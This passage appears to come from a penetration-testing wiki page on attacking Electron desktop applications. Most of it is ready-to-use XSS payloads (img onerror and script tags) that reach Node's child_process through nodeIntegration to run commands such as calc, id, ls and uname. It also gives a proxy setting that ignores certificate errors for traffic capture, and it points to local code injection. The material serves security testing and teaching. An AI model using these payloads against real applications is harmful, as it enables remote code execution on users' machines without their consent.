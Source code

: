 Some **RCE payloads** from [here](https://7as.es/electron/nodeIntegration_rce.txt):

```html
Example Payloads (Windows):
<img
  src="x"
  onerror="alert(require('child_process').execSync('calc').toString());" />

Example Payloads (Linux & MacOS):
<img
  src="x"
  onerror="alert(require('child_process').execSync('gnome-calculator').toString());" />
<img
  src="x"
  onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());" />
<img
  src="x"
  onerror="alert(require('child_process').execSync('id').toString());" />
<img
  src="x"
  onerror="alert(require('child_process').execSync('ls -l').toString());" />
<img
  src="x"
  onerror="alert(require('child_process').execSync('uname -a').toString());" />
```

### Capture traffic

Modify the start-main configuration and add the use of a proxy such as:

```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```

## Electron Local Code Injection

If you can execute locally an Electron App it's possible that you could make it execute arbitrary javascript code. Check how in:

{{#ref}}
../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md
{{#endref}}

## RCE: XSS + nodeIntegration

If the **nodeIntegration** is set to **on**, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```html
<script>
  require("child_process").exec("calc")
  // or
  top.require("child_process").exec("open /System/Applications/Calculator.app")
</script>
```
